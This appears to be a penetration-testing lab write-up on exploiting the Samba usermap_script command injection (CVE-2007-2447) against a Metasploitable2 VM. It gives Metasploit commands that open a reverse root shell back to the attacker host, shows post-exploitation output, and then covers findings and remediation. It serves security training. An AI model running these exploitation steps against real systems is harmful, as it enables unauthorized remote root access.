



# 03 — Samba 3.x usermap_script Command Injection (CVE-2007-2447)

## Objective

Demonstrate exploitation of a command injection vulnerability in Samba's username mapping feature, document the misconfiguration that enables it, and identify additional misconfigurations present in the target's Samba configuration.

---

## Environment

| Component | Details |
|---|---|
| Attacker | Kali Linux 2026.2 — 192.168.226.128 |
| Target | Metasploitable2 (Ubuntu 8.04) — 192.168.226.129 |
| Network | VMware VMnet1 (Host-only, isolated — no internet access) |
| Hypervisor | VMware Workstation Pro 26H1 |
| Tools Used | nmap, Metasploit Framework 6.4 |

> **Note:** This lab is conducted in a fully isolated virtual network. Neither machine has internet access. The target is an intentionally vulnerable VM designed for security practice.

---

## Reconnaissance

The target was previously scanned in Lab 01. Ports 139 and 445 were identified as running Samba during the initial nmap scan.

**Relevant nmap output from Lab 01:**
```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

**Analysis:**

Samba is an open source implementation of the SMB/CIFS protocol, allowing Linux systems to share files and printers with Windows clients. The version range identified (3.x) includes versions affected by CVE-2007-2447 — a command injection vulnerability in the username mapping feature.

---

## Vulnerability

**CVE-2007-2447 — Samba usermap_script Command Injection**

When Samba's `username map script` option is configured in `smb.conf`, Samba passes the connecting client's username through a shell script for account mapping. The vulnerability arises because Samba fails to sanitize the username before passing it to the shell — an attacker can inject shell metacharacters into the username field that get executed by the system shell before the mapping script runs.

This is a classic **command injection** vulnerability caused by insufficient input validation, distinct from the backdoors exploited in Labs 01 and 02. Rather than intentionally malicious code inserted into a package, this is a design flaw in how user-supplied input is handled.

- **CVSS Score:** 9.3 (Critical)
- **Attack Vector:** Network
- **Authentication Required:** None
- **Impact:** Remote code execution as the Samba process owner (root in this case)
- **Affected Versions:** Samba 3.0.0 – 3.0.25rc3

**Root cause in smb.conf:**

The following line in `/etc/samba/smb.conf` enables the vulnerable feature:

```
username map script = /etc/samba/scripts/mapusers.sh
```

When this option is present and a client connects, the username is passed unsanitized to the shell — allowing injection of arbitrary commands via metacharacters such as backticks or `$()`.



---

## Exploitation

Metasploit Framework was used to exploit the vulnerability.

**Step 1 — Launch Metasploit:**
```bash
msfconsole
```

**Step 2 — Load the exploit module:**
```bash
use exploit/multi/samba/usermap_script
```

**Step 3 — Configure the target and listener:**
```bash
set RHOSTS 192.168.226.129
set LHOST 192.168.226.128
```

**Step 4 — Execute:**
```bash
run
```

**Output:**
```
[*] Started reverse TCP handler on 192.168.226.128:4444
[*] Command shell session 1 opened (192.168.226.128:4444 -> 192.168.226.129:38591)
```

A raw command shell session was opened on the target. Unlike Labs 01 and 02 which delivered Meterpreter or a netcat shell, this exploit delivers a direct command shell — a simpler but fully functional interactive session.



---

## Post-Exploitation

**Confirming access level:**

```bash
whoami
root

id
uid=0(root) gid=0(root)

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

hostname
metasploitable
```

The shell was running as `uid=0(root)` — full administrative access with no privilege escalation required.



**Additional misconfiguration — world-writable guest share:**

Review of `/etc/samba/smb.conf` revealed an additional misconfiguration beyond the command injection vulnerability:

```
[tmp]
   comment = oh noes!
   read only = no
   locking = no
   path = /tmp
   guest ok = yes
```

The `[tmp]` share exposes `/tmp` to unauthenticated guest users with write access. An attacker with network access to port 445 could read and write files in `/tmp` without any credentials — a separate finding from the command injection vulnerability.

---

## Comparison with Previous Labs

| | Lab 01 — VSFTPd | Lab 02 — UnrealIRCd | Lab 03 — Samba |
|---|---|---|---|
| CVE | CVE-2011-2523 | CVE-2010-2075 | CVE-2007-2447 |
| Vulnerability class | Supply chain backdoor | Supply chain backdoor | Input validation failure |
| Port | 21 | 6667 | 139/445 |
| Method | Metasploit | Manual netcat | Metasploit |
| Shell type | Meterpreter | Raw bash | Command shell |
| Privilege | root | root | root |

Labs 01 and 02 exploited intentional backdoors inserted into compromised source packages — a supply chain attack class. Lab 03 exploits a design flaw in input handling — a more common real-world vulnerability class. Command injection via unsanitized user input remains one of the most prevalent vulnerability categories in production systems today.

---

## Findings

| Finding | Severity | Detail |
|---|---|---|
| Samba usermap_script command injection | Critical | Unauthenticated remote root access via CVE-2007-2447 |
| username map script enabled | Critical | Misconfiguration in smb.conf enabling the vulnerable code path |
| World-writable guest share | High | /tmp exposed to unauthenticated users with write access |
| Samba process running as root | High | Service should run under a dedicated low-privilege account |

---

## Remediation

1. **Upgrade Samba immediately** — versions 3.0.0 through 3.0.25rc3 are affected. Upgrade to a patched version.
2. **Remove the username map script directive** — if username mapping is not required, remove the `username map script` line from smb.conf entirely. If it is required, ensure all user input is sanitized before being passed to any shell script.
3. **Remove or restrict the [tmp] share** — the world-writable guest share on /tmp should be removed. If file sharing is required, create a dedicated share directory with strict permissions and require authentication.
4. **Run Samba under a least-privilege account** — the smbd process should not run as root. A dedicated service account with minimal filesystem permissions limits the impact of any future exploit.
5. **Firewall SMB ports** — ports 139 and 445 should be blocked at the network perimeter. SMB is a LAN protocol and should never be exposed to untrusted networks.

---

## References

- [CVE-2007-2447 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
- [Metasploit Module — usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
- [Samba Security Advisory](https://www.samba.org/samba/security/CVE-2007-2447.html)
- [Metasploitable2 Documentation](https://docs.rapid7.com/metasploit/metasploitable-2/)
